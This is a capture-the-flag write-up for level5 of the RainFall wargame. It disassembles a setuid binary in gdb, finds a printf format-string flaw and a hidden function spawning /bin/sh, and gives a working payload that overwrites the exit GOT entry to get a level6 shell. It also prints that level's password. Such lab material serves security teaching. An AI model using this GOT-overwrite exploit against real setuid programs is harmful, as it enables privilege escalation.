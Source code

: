 # level5

## Hint

When we log into the machine as `level5`, we notice a binary:

```shell-session
level5@RainFall:~$ ls -l
total 8
-rwsr-s---+ 1 level6 users 5385 Mar  6  2016 level5
level5@RainFall:~$
```

We notice that the `guid` bit is set, so the executable gets the rights of its group owners granted when it is executed, and conveniently enough the group in question is our target for the current level.

That being said, it seems we need to look into the binary in order to try to understand what input it's awaiting.

## gdb

Let's look now at the binary.

```gdb
level5@RainFall:~$ gdb -q ./level5
Reading symbols from /home/user/level4/level4...(no debugging symbols found)...done.
gdb-peda$ pdisas main
Dump of assembler code for function main:
   0x08048504 <+0>:	push   ebp
   0x08048505 <+1>:	mov    ebp,esp
   0x08048507 <+3>:	and    esp,0xfffffff0
   0x0804850a <+6>:	call   0x80484c2 <n>                        <-- Call to function `n`
   0x0804850f <+11>:	leave
   0x08048510 <+12>:	ret
End of assembler dump.
```

Let's look at `n`.

```gdb
gdb-peda$ disas n
Dump of assembler code for function n:
   0x080484c2 <+0>:	push   ebp
   0x080484c3 <+1>:	mov    ebp,esp
   0x080484c5 <+3>:	sub    esp,0x218                       <-- Space of 536 bytes allocated for the stack frame
   0x080484cb <+9>:	mov    eax,ds:0x8049848                <-- Load of stdin
   0x080484d0 <+14>:	mov    DWORD PTR [esp+0x8],eax         <-- Set stdin as 3rd argument to fgets()
   0x080484d4 <+18>:	mov    DWORD PTR [esp+0x4],0x200       <-- Set 520 as 2nd argument to fgets()
   0x080484dc <+26>:	lea    eax,[ebp-0x208]                 <-- Load char buffer[520]
   0x080484e2 <+32>:	mov    DWORD PTR [esp],eax             <-- Set char buffer as 1st argument to fgets()
   0x080484e5 <+35>:	call   0x80483a0 <fgets@plt>           <-- Call to fgets(buffer, 0x200, stdin)
   0x080484ea <+40>:	lea    eax,[ebp-0x208]                 <-- Load char buffer[520]
   0x080484f0 <+46>:	mov    DWORD PTR [esp],eax             <-- Set char buffer as 1st argument to printf()
   0x080484f3 <+49>:	call   0x8048380 <printf@plt>          <-- call to prinf(buffer)
   0x080484f8 <+54>:	mov    DWORD PTR [esp],0x1             <-- Set 1 as 1st argument to exit()
   0x080484ff <+61>:	call   0x80483d0 <exit@plt>            <-- Call to exit(1)
End of assembler dump.
```

So we don't see any `system()` call here. Maybe there is another function ?

```gdb
gdb-peda$ info function
All defined functions:

Non-debugging symbols:
0x08048334  _init
0x08048380  printf
0x08048380  printf@plt
0x08048390  _exit
0x08048390  _exit@plt
0x080483a0  fgets
0x080483a0  fgets@plt
0x080483b0  system
0x080483b0  system@plt
0x080483c0  __gmon_start__
0x080483c0  __gmon_start__@plt
0x080483d0  exit
0x080483d0  exit@plt
0x080483e0  __libc_start_main
0x080483e0  __libc_start_main@plt
0x080483f0  _start
0x08048420  __do_global_dtors_aux
0x08048480  frame_dummy
0x080484a4  o                                               <-- An other function ! `o`
0x080484c2  n
0x08048504  main
0x08048520  __libc_csu_init
0x08048590  __libc_csu_fini
0x08048592  __i686.get_pc_thunk.bx
0x080485a0  __do_global_ctors_aux
0x080485cc  _fini
```

Yes ! There it is. `o` not referenced in the control flow.

Let's see what's `o` tells us.

```gdb
gdb-peda$ disas o
Dump of assembler code for function o:
   0x080484a4 <+0>:	push   ebp
   0x080484a5 <+1>:	mov    ebp,esp
   0x080484a7 <+3>:	sub    esp,0x18                        <-- Space of 24 bytes allocated for the stack frame
   0x080484aa <+6>:	mov    DWORD PTR [esp],0x80485f0       <-- Set "/bin/sh" as 1st argument to system()
   0x080484b1 <+13>:	call   0x80483b0 <system@plt>          <-- Call to system("/bin/sh")
   0x080484b6 <+18>:	mov    DWORD PTR [esp],0x1             <-- Set 1 as 1st argument to exit()
   0x080484bd <+25>:	call   0x8048390 <_exit@plt>           <-- Call to exit(1)
End of assembler dump
```

Ok now we have our call to `system()`.

We know where we need to go next in order to exploit our way to a shell.

But how can we do it ? Well there is some other symbol available we have not yet underligned: the `exit` function.

## exit me more

```gdb
gdb-peda$ info function
All defined functions:

Non-debugging symbols:
0x08048334  _init
0x08048380  printf
0x08048380  printf@plt
0x08048390  _exit
0x08048390  _exit@plt
0x080483a0  fgets
0x080483a0  fgets@plt
0x080483b0  system
0x080483b0  system@plt
0x080483c0  __gmon_start__
0x080483c0  __gmon_start__@plt
0x080483d0  exit                                            <--- exit function
0x080483d0  exit@plt
0x080483e0  __libc_start_main
0x080483e0  __libc_start_main@plt
0x080483f0  _start
0x08048420  __do_global_dtors_aux
0x08048480  frame_dummy
0x080484a4  o
0x080484c2  n
0x08048504  main
0x08048520  __libc_csu_init
0x08048590  __libc_csu_fini
0x08048592  __i686.get_pc_thunk.bx
0x080485a0  __do_global_ctors_aux
0x080485cc  _fini
gdb-peda$ disas n
Dump of assembler code for function n:
   0x080484c2 <+0>:	push   ebp
   0x080484c3 <+1>:	mov    ebp,esp
   0x080484c5 <+3>:	sub    esp,0x218
   0x080484cb <+9>:	mov    eax,ds:0x8049848
   0x080484d0 <+14>:	mov    DWORD PTR [esp+0x8],eax
   0x080484d4 <+18>:	mov    DWORD PTR [esp+0x4],0x200
   0x080484dc <+26>:	lea    eax,[ebp-0x208]
   0x080484e2 <+32>:	mov    DWORD PTR [esp],eax
   0x080484e5 <+35>:	call   0x80483a0 <fgets@plt>
   0x080484ea <+40>:	lea    eax,[ebp-0x208]
   0x080484f0 <+46>:	mov    DWORD PTR [esp],eax
   0x080484f3 <+49>:	call   0x8048380 <printf@plt>
   0x080484f8 <+54>:	mov    DWORD PTR [esp],0x1
   0x080484ff <+61>:	call   0x80483d0 <exit@plt>            <-- pointer to the address returned by the PLT
End of assembler dump.
gdb-peda$ disas 0x80483d0
Dump of assembler code for function exit@plt:
   0x080483d0 <+0>:	jmp    DWORD PTR ds:0x8049838          <- Dereferenced pointer to exit function call address, returned by the GOT
   0x080483d6 <+6>:	push   0x28
   0x080483db <+11>:	jmp    0x8048370
End of assembler dump.
```

We know that, when calling a dynamically linked function, including everything from the libc, we use a system feature call PLT (procedure linkage table), this procedure allows for the resolution of addresses unknown at runtime, these addresses are stored in the GOT (Global Offset Table).

When execution sends a symbol to the PLT, the PLT asks the GOT for the actual address of that symbol (functions, etcetc...).

Therefor, the GOT returns a pointer to the proper address of that symbol.

The only thing is that the value pointed to by that pointer, thanks to Format String Exploits, can be overwritten before the runtime evaluates that address, and will therefor resolve to an arbitrary (or not) function call.

What is left for us is to use a classic format string exploit to overwrite the address to call function `o()` that we know will run a new `shell`.

## Format Stringue Exploit

Same as before, we must first deduce the position of the arguments of printf, so we send it an easily readable string and look for the position of the segment "BBBB" which translates to  "42424242" and see it's in 4th position.

```shell-session
level5@RainFall:~$ (python -c 'print "BBBB" + "|-|%08x" * 20 ') | ./level5
BBBB|-|00000200|-|b7fd1ac0|-|b7ff37d0|-|42424242|-|257c2d7c|-|7c783830|-|30257c2d|-|2d7c7838|-|3830257c|-|7c2d7c78|-|78383025|-|257c2d7c|-|7c783830|-|30257c2d|-|2d7c7838|-|3830257c|-|7c2d7c78|-|78383025|-|257c2d7c|-|7c783830
```

Now we know that we can inject, usign `%n` like before, an arbitrary value to the argument in 4th position.

We also know that the pointer returned by the GOT is found at address `0x8049838`.
As shown by disassembling the `exit` symbol.

We must now determine what address we are aiming at, and therefor the value we are trying to inject, easily enough, it is the `o()` function address: `0x080484a4` which equals to 134513828.

With all that in mind, we can construct a string that not only uses `%n` as a means to inject an arbitrary value (134513828), but also the address we are trying to overwrite (the one pointed to by 0x8049838).

The last thing is that we must substract 4 bytes from the total amout of bytes to write to leave room for the Format String address and have the correct value sent by `%n`, as well as consider endianess when writing the address in the format string.

```shell-session
level5@RainFall:~$ (python -c 'print "\x38\x98\x04\x08" + "%134513824c" + "%4$n"'; cat) | ./level5
[...Huge long string of bytes that prints for tens of seconds...]
_
whoami
level6
cat ~level6/.pass
d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
```
